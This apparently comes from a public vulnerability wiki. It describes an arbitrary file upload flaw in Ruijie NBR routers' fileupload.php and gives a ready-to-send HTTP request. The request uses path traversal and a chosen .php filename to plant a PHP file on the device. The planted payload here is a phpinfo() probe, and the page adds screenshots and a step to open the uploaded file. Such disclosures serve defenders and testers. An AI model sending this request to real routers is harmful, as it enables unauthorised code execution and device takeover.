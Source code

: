 # Ruijie NBR router fileupload.php arbitrary file upload vulnerability

## Vulnerability Description

Ruijie NBR router fileupload.php file has a vulnerability to upload any file to the server through the vulnerability. The attacker can upload any file to the server to obtain server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Rujie NBR router</span>

## Network surveying and mapping



## Vulnerability reappears

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647768741978-90d9f47d-e003-4565-9153-9ccd7fbda5cc.png)

The file with a vulnerability is in /ddi/server/fileupload.php, which is a standard file upload file.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647768806049-76ae4f06-3df1-43cc-9154-2dfffafddcaf.png)

The file name and directory are controllable, resulting in the upload of files at will.

```php
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647768840891-cb2de5f0-98bb-40e0-9b9e-bcf348864f85.png)

Access the uploaded file directory

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647768865012-128cd155-75d0-4e94-a1fc-dbed5df6f8dc.png)